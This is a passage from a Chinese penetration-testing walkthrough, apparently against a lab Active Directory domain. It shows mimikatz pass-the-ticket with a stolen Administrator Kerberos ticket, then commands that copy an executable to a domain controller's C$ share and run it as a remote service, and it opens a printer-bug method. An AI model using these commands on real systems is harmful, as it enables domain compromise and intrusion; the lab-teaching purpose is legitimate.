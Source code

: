   
生成了一堆。我们发现里面有个Administrator哦！应该就是之前dc访问时留下的票据文件了。  
  
  
**3.导入票据到内存**  
  
  
mimikatz kerberos::ptt [0;426589]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi  
  
  
在此之前我们先尝试连接通讯域控。做个对比  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7iaoK3AU1doUHPFQqneNDfhosiaZjcYpg2qGFypM8o7dOOVBF6IXKUDFg/640?wx_fmt=png&from=appmsg "")  
  
  
然后我们导入票据  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7tpwicddGW6pEKkOOEbLOGkoe9iaIuBHxGVOf5ibrj8iaNp8wTYZ723jPYA/640?wx_fmt=png&from=appmsg "")  
  
  
**4.连接通讯域控**  
  
  
shell dir \\owa2010cn-god\c$  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7zIMclGEYT64rC8uO9OZFRicGdibRr7jJMtNpBVGwpD3lXdErWach0pqg/640?wx_fmt=png&from=appmsg "")  
  
  
成功通讯哦耶！  
  
  
至于上线，就很简单了  
  
```
shell net use \\owa2010cn-god\c$
shell copy 3232.exe \\owa2010cn-god\c$
shell sc \\owa2010cn-god create aaaa binpath= "c:\3232.exe"
shell sc \\owa2010cn-god start aaaa
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7eWoMxgKw8fm8zqSYSz2wa7miaTo2T34fEs4sS5IfbpM3QBJ9TlYyA1g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7fqibFic7yCGBBOUrghaNOVRL1YD9aTP3FJq5WLBIa7PU30OZ1BavG6rg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7kdSlMe4JCJP4OKxz7f1zHlIKiatpPC8F2MTFgGLV54Q1PWXgG4TsfwA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7HS9csQhRPj4qOL6mV2hNyibEVqCCatV8xBgHWASRSqSs0KuRHJrE4Bg/640?wx_fmt=png&from=appmsg "")  
  
  
成功上线！  
  
##### 利用思路2：结合打印机漏洞  
  
  
**利用条件：DC 2012以上**  
（重要，不然就报错用不了，而且网上说2012好像也不行，我这里用2016来做。）  
  
  